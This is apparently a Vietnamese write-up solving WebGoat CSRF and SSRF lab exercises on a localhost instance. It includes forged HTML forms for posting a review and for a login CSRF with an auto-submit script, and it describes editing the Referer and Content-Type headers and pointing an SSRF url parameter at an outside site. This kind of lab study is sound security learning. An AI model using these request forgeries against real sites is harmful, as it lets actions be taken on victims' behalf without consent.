




# (A8:2013) Request Forgeries

## Cross-Site Request Forgeries

### 3. Basic Get CSRF Exercise

Thay vì dựng một web server để chuyển hướng thì mình bắt request và chỉnh lại phần `Referer` trong header.



Nhập số ở phần `flag` vào là xong.

### 4. Post a review on someone else’s behalf

Copy phần code ủa button `Sumbmit review` sửa lại attribute `action` và lưu lại sau đó mở bằng browser nhập input và bấm submit hehe. Lưu ý phần `reviewsStars` phải là số nếu không sẽ bị lỗi.

```html
<form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://127.0.0.1:8080/WebGoat/csrf/review">
    <input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
    <input class="form-control" id="reviewStars" name="stars" type="text">
    <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
    <input type="submit" name="submit" value="Submit review">
</form>
```

Câu này cũng có thể solve bằng cách sửa `Referer` như câu 3.

### 7. CSRF and content-type

Đổi `Referer` và chỉnh phần `Content-Type` thành `text/plain`.




### 8. Login CSRF attack

Tạo một tài khoản mới với prefix `csrf-` và tạo một trang HTML như sau:

```html
<form action="http://localhost:8080/WebGoat/login" method="POST" style="width: 200px;">
    <input type="hidden" name="username" value="csrf-woanmeo11">
    <input type="hidden" name="password" value="123456">
    <button type="submit">Sign in</button>
</form>
<script>document.login.submit()</script>
```

Bấm vào nút submit khi dó mình sẽ login dưới tài khoản `csrf-woanmeo11`, sau đó tìm nút solve tại lession bấm vào là xong.


## Server-Side Request Forgery

### 2. Find and modify the request to display Jerry

Bắt request bằng burpsuite và đổi từ `tom` thành `jerry`.



### 3. Change the request so the server gets information from http://ifconfig.pro

Thay param `url=http://ifconfig.pro`.

